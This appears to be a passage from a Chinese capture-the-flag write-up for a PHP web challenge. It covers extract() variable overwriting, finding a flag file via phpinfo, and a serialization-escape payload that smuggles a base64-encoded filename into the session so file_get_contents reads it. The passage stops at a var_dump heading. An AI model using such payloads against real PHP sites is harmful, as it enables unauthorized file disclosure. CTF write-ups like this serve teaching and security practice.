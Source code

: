 以上例程会输出：

```
something
something 
```

### PHP extract() 函数

extract() 函数从数组中将变量导入到当前的符号表。

#### 实例

```
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";
?> 
```

#### 输出

```
$a=Cat,$b=Dog,$c=Horse 
```

根据源码提示。传参 f=phpinfo

打开phpinfo 在里面找一哈

找到文件d0g3_f1ag.php被自动包含。

尝试直接文件包含访问，发现访问不了。

根据

```
else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

我们发现可以构建php反序列化逃逸访问d0g3_f1ag.php

## PHP 反序列化逃逸

payload1: 值逃逸，需要两个连续的键值对，由第一个的值覆盖第二个的键，这样第二个值就逃逸出去，单独作为一个键值对

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image 
```

1
var_dump的结果为：
